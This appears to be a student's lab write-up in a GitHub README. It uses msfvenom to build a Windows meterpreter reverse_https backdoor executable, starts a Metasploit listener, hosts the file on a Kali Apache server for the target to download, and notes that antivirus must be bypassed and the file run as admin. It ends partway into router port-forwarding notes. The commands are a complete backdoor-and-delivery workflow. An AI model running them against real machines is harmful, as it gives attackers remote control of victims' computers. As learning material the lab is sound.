 # Client Side Protection  

## Objective

Finding backdoors and payloads in the client side for protection

### Skills Learned

- Installing Metasploitable on a Mac (silicon)

  

### Tools Used

- Metasploitable
- Zenmap
- metasploit
- Msfvenom
  

### Steps for Client side vulnerabilities (Msfvenom)

- We can check all the payloads that msfvenom has
```bash
msfvenom --list payloads
```
- We can see the list of the payloads, the first part is the name, the second part is the description. (Platform/type/communication) thats the naming of the payloads. The communication is broken into direction and protocol.
- We can now check a payload and check its options
  
```bash
msfvenom --payload windows/meterpreter/reverse_https --list-options
```

- We can change the basic options, LHOST is our computer and LPORT is the port we want to listen on. We can change the values and choose a file format and name for the payload we want to create.
  
```bash
msfvenom --payload windows/meterpreter/reverse_https LHOST=192.168.233.134 LPORT=8080 --format exe --out reverse_https_8080.exe
```

- Now we will test the backdoor, we need to turn on Metasploit **msfconsole**.
- We then use the module to open a port on our computer.
```bash
use exploit/multi/handler
```

- We can change the payload to our own payload and the module options should change
```bash
set PAYLOAD windows/meterpreter/reverse_https
```
- We change the LHOST and LPORT to match the payload we made.
- We then start the module with **Exploit**

### Steps to deliver the payload to a target 

- We to go the default path of web server for Kali linux, var/www/html.
- We can create a folder (directory) and put the payload file we made.
- We start the web server from Kali
```bash
service apache2 start
```
- We can open the web server at the target machine by typing the IP address of the Kali in the target's browser.
- We can navigate to our directory. IP-address/name-of-div
- We then dowmload the file and install it ( need to download Avast to get the file to not be deleted and run as Admin)
- The promt of Kali will be **meterpreter>** which means our backdoor is installed. We can type **sysinfo** to find the OS of the target machine.


### Configure the router to forward connection in Kali

- We can find router's IP address is by typing route -n. OR on the Mac in the wifi settings
- We login the routers settings from our computer and find the advance settings and port or IP forwading.
- 









